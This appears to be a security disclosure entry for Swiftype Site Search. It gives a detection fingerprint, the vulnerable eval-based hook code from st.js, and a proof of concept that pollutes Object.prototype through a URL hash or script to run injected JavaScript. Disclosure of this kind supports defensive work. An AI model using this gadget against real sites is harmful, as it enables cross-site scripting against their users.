 ## Swiftype Site Search (uses jQuery BBQ)

URL: https://swiftype.com/documentation/site-search/crawler-quick-start

### JS Fingerprint
```
return (typeof SwiftypeObject != 'undefined')
```

### Vulnerable code fragment

https://s.swiftypecdn.com/install/v2/st.js

```js
pInstall._convertStringHooksToFunctions = function() {
  var functionHooks = {};
  $.each(this._userServerConfiguration.install.hooks, function(hookName, hookFunction) {
    functionHooks[hookName] = eval(hookFunction)
  }),
  this._userServerConfiguration.install.hooks = functionHooks
}   
```

### PoC
```
#__proto__[xxx]=alert(1)
```

```html
<script>
  Object.prototype['xxx'] = 'alert(1)'
</script>

<script data-cookieconsent=ignore>
(function(w,d,t,u,n,s,e){w['SwiftypeObject']=n;w[n]=w[n]||function(){
(w[n].q=w[n].q||[]).push(arguments);};s=d.createElement(t);
e=d.getElementsByTagName(t)[0];s.async=1;s.src=u;e.parentNode.insertBefore(s,e);
})(window,document,'script','//s.swiftypecdn.com/install/v2/st.js','_st');
_st('install','xxxxxxxxxxxxxxxxxxxx','2.0.0');
</script>
```